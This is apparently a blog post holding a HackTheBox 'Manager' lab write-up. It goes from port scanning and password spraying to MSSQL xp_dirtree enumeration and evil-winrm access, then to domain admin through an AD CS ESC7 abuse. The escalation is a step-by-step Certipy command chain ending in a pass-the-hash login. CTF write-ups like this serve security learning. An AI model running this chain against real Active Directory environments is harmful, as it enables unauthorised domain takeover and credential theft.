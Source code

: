 ```yaml
---
layout: post
title: "Manager cfec3cd46494480db7224387594ecdf2"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})

With Rustscan we found 

> 445 SMB
1433 mssql
464 kpass
88 Kerberos
> 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})

That’s how we find active users in the machine

~Spray all the users found using Crackmapexec

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})

## 2: User flag

> Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.
> 

Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})

Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree

We can check documentation to find web page resources 

```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

find a website backup  with creds, use wget to download it locally, using evil-wirm to access

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})

## 3: Priv esc

```bash
whoami /groups /priv
```

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})

Evil winrm a advantage, the capacity of upload and create files from remote machine

```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```

> Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
> 

```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```

Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit

```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```

You’ve got a hash for admin with

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Whether for some reason it shows you an error message try to sync servers like this

```bash
sudo ntpdate -u manager.htb
```

And finally

```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```

Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

